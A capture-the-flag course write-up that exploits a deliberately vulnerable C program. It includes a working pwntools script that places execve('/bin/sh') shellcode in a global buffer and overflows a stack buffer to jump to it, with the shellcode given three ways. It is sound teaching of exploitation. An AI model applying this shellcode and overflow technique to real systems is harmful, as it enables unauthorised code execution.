 ```yaml
---
title: Simple Buffer Overflow - 0x04
tags: [CTF, PWN, NTUSTISC]

category: "Security/Course/NTU CS/PWN"
---
```


# Simple Buffer Overflow - 0x04
<!-- more -->
###### tags: `CTF` `PWN`

## Original Code
```clike!
#include <stdio.h>
#include <stdlib.h>
#include <unistd.h>

char message[48];

int main()
{
    char name[16];
    printf("Give me your message: ");
    fflush(stdout);
    read(0, message, 0x30);
    fflush(stdout);
    read(0, name, 0x30);
    return 0;
}
```
* Actually, this is a variant of the [lecture 0x01](https://hackmd.io/@UHzVfhAITliOM3mFSo6mfA/HJm5x_Ocs)
* <font color="F0000">Note that</font>, the global variable has its own address, instead of local variable that push to stack that we don't know at first.
* The 1st `read` function has no overflow, but 2nd `read` function has.

* Note that, if you establish the code yourself, you must turn off the protection by the command below and use `checksec` to observe the protection
    ```bash!
    gcc -o bof3 bof3.c -zexecstack -no-pie -fno-stack-protector -z norelro
    ```
* <font color="FF0000">Note that</font>:
must use `mprotect` to change permission access just like [lecture 0x04](https://hackmd.io/@UHzVfhAITliOM3mFSo6mfA/HJhgXGKci), add these line in original code
    ```c!
    #include <sys/mman.h>
    mprotect(0x403000, 0x1000, PROT_READ|PROT_WRITE|PROT_EXEC);
    ```
    **Before `mprotect` - `vmmap`**
    ![](https://imgur.com/yQ8PeWN.png)
    **After `mprotect` - `vmmap`**
    ![](https://imgur.com/moSdC0R.png)

## Exploit
* The main idea of this problem is write down your shellcode in `message` global variable and use `BOF` of 2nd `read` function to overlap `%rip`
* First, observe the address of global variable - `message` → `4033c0`
![](https://imgur.com/dTVBnkK.png)
* So, we have to construct our shellcode in [lecture 0x02](https://hackmd.io/@UHzVfhAITliOM3mFSo6mfA/BJRfEWFcs)
    ```python!
    from pwn import *

    r = process('./bof3')
    raw_input()

    # First, we must set our infrastructure of the platform
    context.arch = 'amd64'  # x86-64 → amd64, x86-32 → i386

    # asm function transfer your shellcode to machine language
    shellcode = asm('''
    mov    rbx, 0x68732f6e69622f
    push   rbx
    mov    rdi, rsp
    xor    rsi, rsi
    xor    rdx, rdx
    mov    rax, 0x3b
    syscall
    ''')

    r.send(shellcode)   # Send to 1st read function

    payload = b'a' * 0x18 + p64(0x4033c0)

    r.send(payload) # Send to 2nd read function that has bof
    r.interactive()
    ```

    * Note that, the 3 methods below are equal
        
        ```python!
        shellcode = asm('''
        mov    rbx, 0x68732f6e69622f
        push   rbx
        mov    rdi, rsp
        xor    rsi, rsi
        xor    rdx, rdx
        mov    rax, 0x3b
        syscall
        ''')
        ```
        
        * Made by [Online x86 / x64 Assembler and Disassembler](https://defuse.ca/online-x86-assembler.htm#disassembly)
        ```python!
        shellcode = asm('\x48\xBB\x2F\x62\x69\x6E\x2F\x73\x68\x00\x53\x48\x89\xE7\x48\x31\xF6\x48\x31\xD2\x48\xC7\xC0\x3B\x00\x00\x00\x0F\x05')
        ```
            
        * Made by `pwntools` built-in function
        ```python!
        shellcode = asm(shellcraft.sh())
        ```
* Then we got shell!!!
    ![](https://imgur.com/fQ9X9e6.png)